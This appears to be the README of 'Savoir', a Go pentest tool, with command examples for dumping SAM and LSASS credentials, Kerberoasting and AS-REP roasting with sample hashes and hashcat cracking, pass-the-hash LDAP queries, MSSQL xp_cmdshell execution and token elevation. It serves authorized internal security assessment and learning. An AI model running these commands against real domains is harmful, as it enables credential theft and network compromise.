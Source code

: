 # Savoir

Savoir is a tool to perform tasks during internal security assessment.
This project help me to understand how some pentest tools works.


## Build

You can build `savoir` for multiple platforms:

```bash
make update
make build
```

The `build` folder contains build for multiple OS and architectures.


## Commands

### sam

```bash
savoir sam local # Windows only
savoir sam hive --sam <path/to/sam> --system <path/to/system>
savoir sam shadowcopies # Windows only
```


### lsass

```bash
savoir lsass process --json # Windows only
savoir lsass minidump --path /path/to/lsass.dmp --json
```

### kerberos


#### Ask a TGT then a TGS

You can also ask a TGS, `savoir` will ask for a `TGT` first

```bash
savoir kerberos asktgs --dc-ip <DC-IP> -d ubh.lab -u dany -p dany -e rc4 -r karen
$krb5tgs$23$*karen$UBH.LAB$ubh.lab/karen*$858129adc693b1a8bb62e50a51b4ffc2$9b2b...
```

You can ask a `TGT` save it to a `kirbi` files then ask for a `TGS`:

```bash
# Ask a TGT and save it to dany.kirbi
savoir kerberos asktgt --dc-ip <DC-IP> -d ubh.lab -u dany -p dany -e rc4 -o dany.kirbi
TGT saved to dany.kirbi.

# Display the TGT
savoir kerberos describe --ticket dany.kirbi
ServiceName              :  krbtgt/ubh.lab
ServiceRealm             :  UBH.LAB
UserName                 :  dany
UserRealm                :  UBH.LAB
StartTime                :  2022-01-22 09:12:55 +0000 UTC
EndTime                  :  2022-01-22 19:12:55 +0000 UTC
RenewTill                :  2022-01-29 09:12:55 +0000 UTC
Flags                    :  forwardable ; proxiable ; renewable ; initial ; pre-authent
KeyType                  :  arcfour-hmac-md5
Base64(key)              :  9CrwY3aAdXdr91h7uGi9qg==

# Ask a TGS using this TGT
savoir kerberos asktgs --dc-ip <DC-IP> -d ubh.lab -t dany.kirbi -e rc4 -r karen
$krb5tgs$23$*karen$UBH.LAB$ubh.lab/karen*$ef59ed1f3fdfddf356dd93823ad8208f$228920...
```


#### Generate Kerberos keys

Note that `RC4` key is the `NTLM` hash `(MD4(UNICODE(password)))`

```bash
savoir kerberos keys --password 'Pa$$w0rd' --salt 'CONTOSO.COMAdministrator'
arcfour-hmac-md5
  Key: 92937945b518814341de3f726500d4ff
  Iterations: 00001000

aes128-cts-hmac-sha1-96
  Key: bd75e98362b16649ffbaed630d5341d0
  Iterations: 00001000

aes256-cts-hmac-sha1-96
  Key: 660e61042b190b5724c62bb473facca12058fb9ad3c03c0d2809f839c0352502
  Iterations: 00001000
```


#### AS-REP roasting

A User account may have the option `Do not require Kerberos preauthentication`
checked.

```bash
# target a specific user
savoir kerberos asreproast --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> --format=john
# target all users in domain
savoir kerberos asreproast --dc-ip <DOMAIN_IP> -d <DOMAIN> --ldap-user <LDAP_USERNAME> --ldap-password <LDAP_PASSWORD> rc4 --format=john
```


#### Kerberoasting

```bash
# target a specific SPN
savoir kerberos asktgs --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> -p <USER_PASSWORD> --spn <SPN> --output <HASHES>
# target all SPN in the domain (use the same credentials to query LDAP or use an other account)
savoir kerberos asktgs --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> -p <USER_PASSWORD> --ldap --output <HASHES>
# Recover the password
hashcat -m 13100 -a 0 <HASHES> <PASSWORDS>
```


### LDAP

```bash
# Use a domain account with a password
savoir ldap query -H <LDAP_HOSTNAME> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> -q <QUERY>
savoir ldap query -H <LDAP_HOSTNAME> -d <DOMAIN> -u <USERNAME> -n <NTLM_HASH> -q <QUERY>
```


### MSSQL

```bash
savoir mssql query -H <MSSQL_HOSTNAME> -t <KRB_TICKET> -q <SQL_QUERY>
savoir mssql xp_cmdshell -H <MSSQL_HOSTNAME> -t <KRB_TICKET> -c <CMD>
```


### token

```bash
savoir token elevate -x cmd.exe # Windows only
```


### webscreenshot

This command take a screenshot of a URL using a headless browser.

```bash
savoir webscreenshot --url {url} --renderer {chrome|chromium|firefox} --renderer-path {path}
```

### Scanner

#### TCP Scanner

This is a TCP connect scanner using Go `net.Dialer` to test if there is
opned services.

```bash
savoir scanner tcp --host scanme.nmap.org --json
```

### Log level

Change log output with the environnement variable `SAVOIR_LOGGER_LEVEL`:

```bash
SAVOIR_LOGGER_LEVEL=warn savoir ...
```

Possible values are: `debug`, `warn`, `info` and `error`.


## Credits

- [gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- [skelsec/pypykatz](https://github.com/skelsec/pypykatz)
- [SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)
- [GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
- [jcmturner/gokrb5](https://github.com/jcmturner/gokrb5)
